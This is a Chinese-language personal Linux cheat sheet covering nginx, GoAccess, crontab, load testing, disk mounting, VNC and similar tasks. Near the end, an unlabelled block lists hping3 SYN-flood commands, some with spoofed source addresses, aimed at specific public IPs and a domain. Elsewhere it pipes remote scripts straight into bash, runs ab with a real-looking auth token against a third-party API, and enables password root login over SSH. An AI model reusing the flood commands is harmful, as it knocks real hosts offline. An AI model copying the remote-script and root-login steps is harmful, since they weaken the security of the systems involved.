

> <span style="color:red;">更多Linux配置请参考：</span><https://github.com/orangbus/Tool

# 在线工具

php在线调试：<http://php.jsrun.net>

# Linux快捷键

- `Ctrl + r` 搜索匹配历史执行过的命令。

# nginx日志分析工具:GoAccess

## 前期准备

```bash
# arch | manjaro
sudo pacman -S goaccess

# cnetos
yum install epel-release
yum install https://dl.fedoraproject.org/pub/epel/epel-release-latest-8.noarch.rpm

yum install geoip
```

## 安装GoAccess

```bash
wget https://tar.goaccess.io/goaccess-1.6.3.tar.gz
tar -xzvf goaccess-1.6.3.tar.gz
cd goaccess-1.6.3/
./configure --enable-utf8 --enable-geoip=mmdb
make && make install
```

## 配置日志格式

配置文件位于：`/usr/local/etc/goaccess/goaccess.conf` 

manjaro : `/etc/goaccess` 

cemtos8: `/usr/local/etc` 

```
time-format %H:%M:%S
date-format %d/%b/%Y
log-format %h - %^ [%d:%t %^]; "%r" %s %b "%R" - %^"%u" - %^ %T
```

## 使用终端分析日志结果

```
goaccess -a -d -f /var/log/nginx/access.log
```

## 以HTML格式输出分析结果

```bash
LANG="zh_CN.UTF-8" bash -c "goaccess /data/log/nginx/access.log -o /usr/share/nginx/html/goaccess.html  --real-time-html --time-format='%H:%M:%S' --date-format='%d/%b/%Y' --log-format=COMBINED"
```

```bash
goaccess -a -d -f /var/log/nginx/access.log -o /data/www/goaccess/html/report-项目名称.html

# 案例演示
goaccess -a -d -f /home/orangbus/Code/Server/nginx/error/laravel_access.log -o /tmp/report.html

goaccess -a -d -f /www/wwwlogs/deepin.com.log -o /www/wwwroot/weblog.com/deepin.html

goaccess -a -d -f /home/orangbus/Logs/plat.xyekatu.com.log -o /home/orangbus/Logs/plat-xyekatu.html
goaccess -a -d -f /home/orangbus/Logs/www.ynneea.com.log -o /home/orangbus/Logs/ynneea.html
goaccess -a -d -f /home/orangbus/Logs/www.ynzhuobo.com.log -o /home/orangbus/Logs/ynzhuobo.html

goaccess -a -d -f /www/wwwlogs/wugou-admin.com.log -o /www/wwwroot/statistics.com/wugou-admin.html
goaccess -a -d -f /www/wwwlogs/wugou-web.com.log -o /www/wwwroot/statistics.com/wugou-web.html
```

# nginx配置密码访问

1、安装httpd-tools

```bash
yum install  httpd-tools
```

2、生成密码到指定目录

```bash
htpasswd -c /path/.htpasswd user_name

# 案例
htpasswd -c /www/password/.htpasswd orangbus
```

3、修改Nginx配置文件，添加授权访问

```nginx
server {
    listen       80;
    server_name  bicycle.umdzz.cn;
	#提示信息
    auth_basic "Please Input Password..."; 
	#用户密码文件存放路径
    auth_basic_user_file /www/password; 
    location / {
        #列表
        autoindex on;
        #隐藏真实大小，以M或G显示
        autoindex_exact_size off;
        #显示时间
        autoindex_localtime on;
  }

    error_page   500 502 503 504  /50x.html;
    location = /50x.html {
        root   /usr/share/nginx/html;
    }

    location ~ /\.ht {
        deny  all;
    }
}
```


# Linux 如何开放端口和关闭端口

打开端口号

```bash
iptables -A INPUT -ptcp --dport  端口号-j ACCEPT
```

关闭端口号

```bash
iptables -A OUTPUT -p tcp --dport 端口号-j DROP
```

保存设置

```bash
service iptables save
```

# you-get 使用技巧

首先安装pip，更多安装方法参考[菜鸟](https://www.runoob.com/w3cnote/python-pip-install-usage.html)

```
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py   # 下载安装脚本
sudo python3 get-pip.py    # 运行安装脚本。
```

部分 Linux 发行版可直接用包管理器安装 pip，如 Debian 和 Ubuntu：

```
sudo apt-get install python3-pip
# 测试
pip3 -v
```

安装 You-get

```
pip3 install you-get
```

## 如何下载bilibili视频,并指定清晰度

下载单个视频 (直接跟上视频的地址就可以)

```bash
you-get https://www.bilibili.com/video/BV1xxxxxx
```

批量下载一个专辑，比如一门课程有99+集视频，那么我们可以这样

```bash
you-get -l https://www.bilibili.com/video/BV1xxxxxxx //可能下载不了
```

有的小伙伴可能执行上面的命令并不能下载，这时候我们需要审查网页源码，找到已 <span style="color:red;">avxxxxx</span> 结尾的链接才能下载。

在当前视频播放页面【右键】【查看网页源码】，搜索 【av】 , 在meta头里面有个链接是这样的 **content="https://www.bilibili.com/video/av2002xxxx/"** 的，这时候我们就可以复制这个链接下载了

```bash
you-get -l https://www.bilibili.com/video/av2002xxxx
```

如何指定清晰度

首先我们先查看视频信息

```
you-get -i https://www.bilibili.com/video/BV1xxxxxx
----- 我们会看到一下信息 ------
streams:             # Available quality and codecs
    [ DASH ] ____________________________________
    - format:        dash-flv
      container:     mp4
      quality:       高清 1080P
      size:          214.9 MiB (225387178 bytes)
    # download-with: you-get --format=dash-flv [URL] //-----> 这里也是有下载提示的哦

    - format:        dash-flv720
      container:     mp4
      quality:       高清 720P
      size:          164.1 MiB (172104993 bytes)
    # download-with: you-get --format=dash-flv720 [URL]

    - format:        dash-flv480
      container:     mp4
      quality:       清晰 480P
      size:          116.1 MiB (121745328 bytes)
    # download-with: you-get --format=dash-flv480 [URL]

    - format:        dash-flv360
      container:     mp4
      quality:       流畅 360P
      size:          57.1 MiB (59885060 bytes)
    # download-with: you-get --format=dash-flv360 [URL]

```

其中这个`format` 就是清晰度参数，那么我们就可这这样进行下载指定清晰度的视频了

```bash
you-get -F dash-flv https://www.bilibili.com/video/BV1xxxxxx
// 批量下载
you-get -l -F dash-flv https://www.bilibili.com/video/avxxxxxx
```

## 如何断点下载

假如我们的下载的视频一共有 100 集，但是 you-get 下载到 50集就停止了，那我们应该怎么从 51集开始下载呢？

其实注意观察的小伙伴可能会发现，当我们点击100集当中的其中一集的时候，bilibili的视频地址变成了这样的

```url
https://www.bilibili.com/video/BVxxxxxx?p=57
```

后面多了一个 `?p=57` ,如果我们需要断点下载的话 <span style="color:red;">（注意视频地址是 avxxxx,不是网页的原地址BV1xxxxxx）</span>

```bash
you-get -l -F dash-flv https://www.bilibili.com/video/avxxxxxx?p=51
```

# 通过lrzsz与Linux传文件

安装

```bash
sudo yum install lrzsz
```

上传文件

```bash
rz [回车]
```

下载文件

```bash
sz fileName.txt
```

详细：<https://birdteam.net/4479>

# SSh远程链接工具

FinalShell（推荐）：<http://www.hostbuf.com/>

Terminus（推荐）：<https://github.com/Eugeny/terminus>

Git (必备)：<https://git-scm.com/>

babun：<http://babun.github.io/>

# linux开启ssh连接

- debian

  ```
  sudo vim /etc/ssh/sshd_config
  
  # debian9:修改一下文件
  将#PasswordAuthentication no的注释去掉，并且将no修改为yes
  将#PermitRootLogin prohibit-password的注释去掉，将prohibit-password改为yes
  重启ssh： sudo systemctl restartt sshd
  #================================================
  #debain10
  PermitRootLogin yes
  PasswordAuthention yes
  重启ssh： sudo systemctl restartt sshd
  ```

# 压力测试

> webbench -c 并发数 -t 运行测试时间 URL 【http://www.baidu.com/】

```bash
webbench -c 100 -t 10 http://www.baidu.com/
```

# 测速脚本

```bash
bash <(curl -Lso- https://git.io/superspeed)
```

# 如何快速访问Github

## IP解析

作为一个小白，经常需要访问 `github` 来学习，但是呢经常打不开这个网站，或者clone的时候网速很慢，这个时候==怎么解决呢？==

1、打开这个网站：https://www.ipaddress.com ，输入我们**需要访问**的域名，进行搜索，你会得到一个**ip地址**。

2、修改本地`hosts` 文件直接访问，这样就可以了，

**案例：** 访问 `github.com` 和`raw.githubusercontent.com`  

打开 `https://www.ipaddress.com` 搜索 `github.com` 和`raw.githubusercontent.com`  你会看到一个如下IP地址


打开本机电脑的 `hosts` 文件，我的电脑是linux，所以我的 `hosts`文件在 (window用户自行百度)

```bash
sudo vim /etc/hosts
```

添加如下配置

```host
140.82.114.4 github.com
199.232.96.133 raw.githubusercontent.com
```

现在打开 `https://github.com` 就可以访问了。

如何还是无法访问，cmd中输入`ipconfig/flushdns`刷新dns

其它国外的网站是不是也可以类似的操作？比如 google? youtube? .........

## Github镜像站

假如以上方法还是很慢，或者不可行，你可以尝试采用下面的方法

> Github: https://github.com/fhefh2015/Fast-GitHub
>
> Google App: https://chrome.google.com/webstore/detail/github%E5%8A%A0%E9%80%9F/mfnkflidjnladnkldfonnaicljppahpg （需要体力爬梯子）

安装完之后你的界面是这样的


先睹为快：https://github.com.cnpmjs.org/orangbus/tool

## SwitchHosts

> https://github.com/oldj/SwitchHosts/releases

具体怎么使用就查看官网文档吧。

# ubuntu install brew

> https://docs.brew.sh/Homebrew-on-Linux

```bash
git clone https://github.com/Homebrew/linuxbrew.git ~/.linuxbrew

vim .bash_profile
# ====================
export PATH="$HOME/.linuxbrew/bin:$PATH"
export MANPATH="$HOME/.linuxbrew/share/man:$MANPATH"
export INFOPATH="$HOME/.linuxbrew/share/info:$INFOPATH"
# ====================

brew update ## run twice 
brew doctor

# test
brew install hello
```

# 删除站点的 .user.ini 文件

```bash
sudo chattr -i .user.ini
```

# 推荐Uinux发行版-常用Debian

Manjaro：<https://manjaro.org/>

Deepin：<https://www.deepin.org/>

Ubuntu：<https://www.ubuntu.com/index_kylin>

Centos：<https://www.centos.org/>

# 扶墙脚本

233Blog:https://233blog.com

要求：Ubuntu 16+ / Debian 8+ / CentOS 7+ 系统

推荐使用 Debian 9 系统，脚本会自动启用 BBR 优化。

备注：不推荐使用 Debian 8 系统，因为 Caddy 申请证书可能会出现一些莫名其妙的问题
```bash
bash <(curl -s -L https://git.io/v2ray.sh)
```

# crontab使用

> 语法检查网站：https://crontab.guru/

安装：

```bash
sudo apt-get install contab
```

基本命令

```bash
sudo service cron restart/status/start
```

基本语法

```
语法： 分钟 小时 每月中的某一天 月份 每周中的某一天 需要执行的命令

// 每分钟输出 orangbus.cn 字符串到 /home/orangbus/data/demo.txt 文件中
* * * * * echo "orangbus.cn" >> /home/orangbus/data/demo.txt
```

设置一个定时任务: 在打开的文件中加入你需要执行的命令即可，然后保存

```bash
crontab -e
```

列出现在运行的任务

```bash
crontab -l
```

案例： 每个小时以交互式备份 laradock 中数据库数据

```bash
crontab -e 

* 1 * * * docker exec -it 7c02a70f345c mysqldump -uroot -proot xiehui > /home/$USER/Code/Data
/`date +%Y-%m-%d`.sql
```

# Shell笔记

## 颜色

```bash
#!/usr/bin/env bash
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:~/bin
export PATH

# 设置字体颜色函数
function blue(){
    echo -e "\033[34m\033[01m $1 \033[0m"
}
function green(){
    echo -e "\033[32m\033[01m $1 \033[0m"
}
function greenbg(){
    echo -e "\033[43;42m\033[01m $1 \033[0m"
}
function red(){
    echo -e "\033[31m\033[01m $1 \033[0m"
}
function redbg(){
    echo -e "\033[37;41m\033[01m $1 \033[0m"
}
function yellow(){
    echo -e "\033[33m\033[01m $1 \033[0m"
}
function white(){
    echo -e "\033[37m\033[01m $1 \033[0m"
}
```

## 初始化工具安装

```bash
#工具安装
install_pack() {
    pack_name="基础工具"
    echo "===> Start to install curl"    
    if [ -x "$(command -v yum)" ]; then
        command -v curl > /dev/null || yum install -y curl
    elif [ -x "$(command -v apt)" ]; then
        command -v curl > /dev/null || apt install -y curl
    else
        echo "Package manager is not support this OS. Only support to use yum/apt."
        exit -1
    fi    
}
```

## root权限检测

```bash
[ $(id -u) != "0" ] && { echo "${CFAILURE}Error: You must be root to run this script${CEND}"; exit 1; }
```

## sed 命令配合 for 循环方式

假如我们现在有一堆文件，文件名格式是 test01.txt、test02.txt、test03.txt、test04.txt 也就是前半部分是英文，后半部分是数字。我们现在想将文件名改成 test-01.txt 这种形式。这次，我们用 sed 命令来完成这个需求。

```bash
#!/bin/bash

for file in `ls *.txt`
do
     newFile=`echo $file | sed 's/[a−z]\+[0−9]\+/\1-\2/'`
     mv $file $newFile
done
```

批量修改文件名:  ==斗pc穹.mp4  => 斗破苍穹.mp4==

```bash
#!/bin/bash
for file in `ls *.mp4`
do
     newFile=`echo $file | sed 's/pc/破苍/'`

     mv $file $newFile
done
```

# Debian卸载apache

一般80端口被占用会和我们正在安装的程序产生冲突。这时候我们可以使用。

```
lsof -i

lsof -i:80
```

来查看端口占用情况。如果是apache2占用了，我们就先安全卸载它。Debian 下删除apache 2 的代码

```bash
sudo apt-get --purge remove apache2 &&
sudo apt-get --purge remove apache2.2-common &&
sudo apt-get autoremove
```

最后还需要找到没有删除掉的配置文件进行删除

```bash
sudo find /etc -name "apache" -exec rm -rf {} \;
sudo rm -rf /var/www
```

Linux debian 下重装apache 2

```bash
sudo apt-get install apache2
sudo /etc/init.d/apache2 restart
```

# 服务器压力测试

-c : 并发数

-n:请求次数

```bash
ab -c 100 -n 10000 demo.com/ # 模拟 100 个用户发起 10000 次请求
ab -c 127 -n 1000 -H "Authorization: 4d43fe0c86c9d21019389678def79da2&6&1621665729" http://wanyin.heimeiai.com/api/exam/cate/list?cid=11
```

其它参数：

```
-n: 测试会话中所执行的请求个数,默认仅执行一个请求 
-c: 一次产生的请求个数,即同一时间发出多少个请求,默认为一次一个 
-t: 测试所进行的最大秒数,默认为无时间限制....其内部隐含值是[-n 50000],它可以使对服务器的测试限制在一个固定的总时间以内 
-p: 包含了需要POST的数据的文件 
-T: POST数据所使用的Content-type头信息 
-v: 设置显示信息的详细程度 
-w: 以HTML表格的形式输出结果,默认是白色背景的两列宽度的一张表
-i: 以HTML表格的形式输出结果,默认是白色背景的两列宽度的一张表 
-x: 设置<table>属性的字符串,此属性被填入<table 这里> 
-y: 设置<tr>属性的字符串 
-z: 设置<td>属性的字符串 
-C: 对请求附加一个Cookie行，其典型形式是name=value的参数对,此参数可以重复 
-H: 对请求附加额外的头信息,此参数的典型形式是一个有效的头信息行,其中包含了以冒号分隔的字段和值的对(如"Accept-Encoding: zip/zop;8bit") 
-A: HTTP验证,用冒号:分隔传递用户名及密码 
-P: 无论服务器是否需要(即是否发送了401认证需求代码),此字符串都会被发送 
-X: 对请求使用代理服务器 
-V: 显示版本号并退出 
-k: 启用HTTP KeepAlive功能,即在一个HTTP会话中执行多个请求,默认为不启用KeepAlive功能 
-d: 不显示"percentage served within XX [ms] table"的消息(为以前的版本提供支持) 
-S: 不显示中值和标准背离值,且均值和中值为标准背离值的1到2倍时,也不显示警告或出错信息,默认会显示最小值/均值/最大值等(为以前的版本提供支持) 
-g: 把所有测试结果写入一个'gnuplot'或者TSV(以Tab分隔的)文件 
-e: 产生一个以逗号分隔的(CSV)文件,其中包含了处理每个相应百分比的请求所需要(从1%到100%)的相应百分比的(以微妙为单位)时间 
-h: 显示使用方法 
-k: 发送keep-alive指令到服务器端
```

**返回信息详解** 

```tex
This is ApacheBench, Version 2.3 <$Revision: 1879490 $>
Copyright 1996 Adam Twiss, Zeus Technology Ltd, http://www.zeustech.net/
Licensed to The Apache Software Foundation, http://www.apache.org/

Benchmarking www.xxx.cn (be patient)


Server Software:        nginx (服务器软件的版本信息)
Server Hostname:        www.xxx.cn （请求的url）
Server Port:            80 (请求端口)

Document Path:          / (请求路劲)
Document Length:        256738 bytes (页面长度 单位是字节)

Concurrency Level:      127 (并发数)
Time taken for tests:   202.470 seconds (一共使用了 124s)
Complete requests:      1000 (请求的次数)
Failed requests:        0 (失败的请求)
Total transferred:      257836000 bytes (总共传输的字节数 http 头信息)
HTML transferred:       256738000 bytes (实际页面传递的字节数)
Requests per second:    4.94 [#/sec] (mean) (每秒多少个请求)
Time per request:       25713.630 [ms] (mean) (平均每个用户等待多长时间)
Time per request:       202.470 [ms] (mean, across all concurrent requests) (服务器平均用多长时间处理)
Transfer rate:          1243.61 [Kbytes/sec] received (每秒获取多少数据)

Connection Times (ms)
              min  mean[+/-sd] median   max
Connect:        4 2624 1919.7   2360    6329 ()
Processing:   362 22309 3988.6  22767   49337
Waiting:      133 2656 1769.9   2092   23343
Total:        366 24933 4790.0  26094   55634

Percentage of the requests served within a certain time (ms)
  50%  26094 (50% 的用户的请求 15.588ms 内返回)
  66%  27477
  75%  27765
  80%  28206
  90%  29575
  95%  30081
  98%  30610
  99%  31703
 100%  55634 (longest request) 最长请求时间

```

# linux查看文件

```bash
tail -f path/filename.txt
```

# linux文件清理

# 查看当前目录下的文件磁盘占用

```bash
 du -lh --max-depth=1
 ---------------------------
8.0K    ./mailhog
12K     ./frp
260K    ./.git
8.0K    ./aria2
8.0K    ./panindex
8.0K    ./elasticsearch
8.0K    ./alist
8.0K    ./redis
28K     ./minioCluster
8.0K    ./cloudreve
8.0K    ./nextcloud
2.3G    ./meilisearch
```

# Linux查看文件或文件夹大小: du命令

du命令用于显示目录或文件的大小。
du会显示指定的目录或文件所占用的磁盘空间。

语法：

```python
du [-abcDhHklmsSx][-L <符号连接>][-X <文件>][--block-size][--exclude=<目录或文件>][--max-depth=<目录层数>][--help][--version][目录或文件]
```

常用参数说明：
-a或-all 显示目录中个别文件的大小。

-b或-bytes 显示目录或文件大小时，以byte为单位。

-c或--total 除了显示个别目录或文件的大小外，同时也显示所有目录或文件的总和。

-D或--dereference-args 显示指定符号连接的源文件大小。

-h或--human-readable 以K，M，G为单位，提高信息的可读性。

-H或--si 与-h参数相同，但是K，M，G是以1000为换算单位。

-k或--kilobytes 以1024 bytes为单位。

-l或--count-links 重复计算硬件连接的文件。

-L<符号连接>或--dereference<符号连接> 显示选项中所指定符号连接的源文件大小。

-m或--megabytes 以1MB为单位。

-s或--summarize 仅显示总计。

-S或--separate-dirs 显示个别目录的大小时，并不含其子目录的大小。

-x或--one-file-xystem 以一开始处理时的文件系统为准，若遇上其它不同的文件系统目录则略过。

-X<文件>或--exclude-from=<文件> 在<文件>指定目录或文件。

--exclude=<目录或文件> 略过指定的目录或文件。

--max-depth=<目录层数> 超过指定层数的目录后，予以忽略。

--help 显示帮助。

--version 显示版本信息。


使用实例：
1、查看当前目录总共占的容量，而不单独列出各子项占用的容量 ，在所在目录输入du -sh：

```python
# du -sh

15G
```

2、查看当前目录下一级子文件和子目录占用的磁盘容量：

```python
# du -lh --max-depth=1

13M    ./.cache
0    ./.config
1.2M    ./mongo-hacker
0    ./.pki
14M    .
```

3、统计当前文件夹(目录)大小，并按文件大小排序：
统计当前文件夹(目录)大小：du -sh *

```python
# du -sh * | sort -n

1.2M    mongo-hacker
4.0K    anaconda-ks.cfg
4.0K    installmongofor3.6.log
4.0K    securityforcs7.log
4.0K    security.log
16K    securityforcs7.py
24K    installmongofor3.6.py
```

4、查看指定文件大小可以使用du -sh或du -a：

```python
# du -sh installmongofor3.6.log

4.0K    installmongofor3.6.log
```

5、列出当前目录中的目录名不包括某字符串的目录的总大小：

```python
# du -sh --exclude='installmongofor3.6.log'

14M
```

# window连接manjaro桌面

## window

下载安装包：[https://www.realvnc.com/en/connect/download/viewer/](https://www.realvnc.com/en/connect/download/viewer/) 

## manjaro

一、安装tigervnc

```bash
sudo pacman -S tigervnc
```

 二、配置

​    2.1 设置连接密码（桌面仅显示密码可以不设置）

```bash
vncpasswd
```

​     2.2 添加连接用户

```
sudo vim /etc/tigervnc/vncserver.users
```

#添加用户名，例如 user，多个用户依次数字排列添加。

```
:1=user
:2=user2
```

> 端口 :1 是 TCP 端口 5901 (5900+1)，:2是+2，5902

​    2.3 vnc配置文件

查看桌面环境，我下的是xfce

```bash
cd /usr/share/xsessions/

----------
➜  cd /usr/share/xsessions/
➜  xsessions ls
gnome-classic-xorg.desktop  gnome-classic.desktop  gnome-xorg.desktop  gnome.desktop
➜  xsessions
```

添加  vnc 配置

```bash
sudo vim ~/.vnc/config
```

```
#添加以下内容，建议屏蔽localhost
session=gnome // 我上面看到的gnome ,所以这里填了gnome，如果你的是xfce，那么久填xfce
geometry=1920x1080
#localhost
alwaysshared
```


三、启动

```bash
systemctl enable vncserver@:1.service        #开机自启

systemctl start vncserver@:1.service           #启动vnc

systemctl status vncserver@:1.service         #查看vnc

systemctl stop vncserver@:1.service           #关闭vnc
```

这里启动的时候需要输入你上面设置的密码

 

四、win10连接

vnc viewer连接ip 192.168.3.40:5901即可

 

## 软件：

https://aur.archlinux.org/packages/icalingua/

## 删除腾讯云监控-YDService

```bash
wget -qO- https://raw.githubusercontent.com/littleplus/TencentAgentRemove/master/remove.sh | bash
```

## Error: Failed to download metadata for repo ‘appstream’ – CentOS 8

```bash
dnf --disablerepo '*' --enablerepo=extras swap centos-linux-repos centos-stream-repos

dnf distro-sync
```

```bash
hping3 -q -n -a 攻击ip -S -s 源端口  --keep -p 目的端口  --flood  被攻击IP 


hping3 -q -n -a 192.168.3.200 -S -s 80  --keep -p 80  --flood  1.14.63.64


hping3 -c 1000 -d 120 -S -w 64 -p 80 --flood --rand-source mip.jdidi.cn

sudo hping3 --flood  -S 1.14.63.64 -p 80 -i u1000

sudo hping3 --flood -S  1.14.63.64

sudo hping3 1.14.63.64 -c 10000 -d 10000 -S -w 64 -p 80 --flood 

目标地址
sudo hping3 -c 999999999 -d 150 -S -w 64 -p 80 -i u1000 220.170.186.139

万引 103.47.81.249
sudo hping3 -c 999999999 -d 150 -S -w 64 -p 80 -i u1000  103.47.81.249

测试
sudo hping3 -c 999999999 -d 150 -S -w 64 -p 8082 -i u1000 1.14.63.64

sudo hping3 --tcp-connect --rate=90000 -c 900000 -q 1.14.63.64
sudo  hping3 -c 10000 -d 120 --icmp -w 64 -p 80 -i u1000 --flood --rand-sourcet 1.14.63.64
```

# 挂在后台-nohup

```bash
nohup m3d -f=./2.txt 2>&1 &
```

查看日志

```bash
tail -fn 20 nohup.out
```

查看进行

```bash
ps aux |grep m3d

orangbus  5371  0.0  0.0 112828  1000 pts/4    S+   11:11   0:00 grep --color=auto --exclude-dir=.bzr --exclude-dir=CVS --exclude-dir=.git --exclude-dir=.hg --exclude-dir=.svn --exclude-dir=.idea --exclude-dir=.tox m3d
orangbus 18113 34.5  1.2 780084 96212 ?        SNl  3月01 335:40 m3d -f=./29-1.txt # 这里是后台挂起的命令
```

关闭进程

```bash
kill -9 18113
```

# linux磁盘挂载

查看磁盘

```bash
fdisk -l

fdisk /dev/vdb # 根据提示设置，默认可以一路回车到头

# 格式化分区
mkfs.ext4 /dev/vdb

# 创建一个目录
mkdir /data

# 挂载磁盘
mount /dev/vdb /data

# 开机自动挂载
vim /etc/fstab

/dev/vdb(磁盘分区) /data（挂载目录） ext4（文件格式）defaults 0 0

	
```

# windows自带局域网扫描IP

```shell
arp -a
```

# 刷新 DNS 缓存

```shell
// Mac用户
sudo killall -HUP mDNSResponder

// Win
ipconfig /flushdns
```

# 移动ntfs硬盘挂载

查看磁盘

```shell
fdisk -l
-----------------------
磁盘 /dev/sdb：1000.2 GB, 1000204885504 字节，1953525167 个扇区
Units = 扇区 of 1 * 512 = 512 bytes
扇区大小(逻辑/物理)：512 字节 / 4096 字节
I/O 大小(最小/最佳)：4096 字节 / 4096 字节
磁盘标签类型：dos
磁盘标识符：0x2268b4ff

   设备 Boot      Start         End      Blocks   Id  System
/dev/sdb1   *        2048   209717247   104857600    7  HPFS/NTFS/exFAT
/dev/sdb2       209717248   904944106   347613429+   f  W95 Ext'd (LBA)
/dev/sdb3       419432448   695228906   137898229+   7  HPFS/NTFS/exFAT
/dev/sdb4       904944107  1953521663   524288778+   7  HPFS/NTFS/exFAT
Partition 4 does not start on physical sector boundary.
/dev/sdb5       209717311   419432447   104857568+   7  HPFS/NTFS/exFAT
```

创建挂载目录 (2 挂载不上)

```shell
mkdir -p sdb1 sdb3 sdb4 sdb5
```

安装 `ntfs-3g` 

```shell
sudo yum install ntfs-3g
```

挂载磁盘

```shell
sudo mount -t ntfs-3g 磁盘 本地目录
--------------------------------
sudo mount -t ntfs-3g /dev/sdb1 /home/orangbus/sdb1
# 以此类推
```

卸载

```shell
sudo unmount  本地目录
--------------------------------
sudo unmount /home/orangbus/sdb1
```

开机自动挂载

```shell
sudo vim /etc/fstab
# 添加挂载
/dev/sdb1 /home/orangbus/sdb1 ntfs-3g default 0 0
/dev/sdb2 /home/orangbus/sdb2 ntfs-3g default 0 0
/dev/sdb3 /home/orangbus/sdb3 ntfs-3g default 0 0
/dev/sdb4 /home/orangbus/sdb4 ntfs-3g default 0 0
```

# Centos 7 学习之静态IP设置

```shell
vim /etc/sysconfig/network-scripts/ifcfg-eth0
```

```
BOOTPROTO="static" #dhcp改为static 
ONBOOT="yes" #开机启用本配置
IPADDR=192.168.2.200 # 需要固定的静态IP
GATEWAY=192.168.2.1 #默认网关
NETMASK=255.255.255.0 #子网掩码
DNS1=192.168.2.1 #DNS 配置
```

重启

```shell
service network restart
```


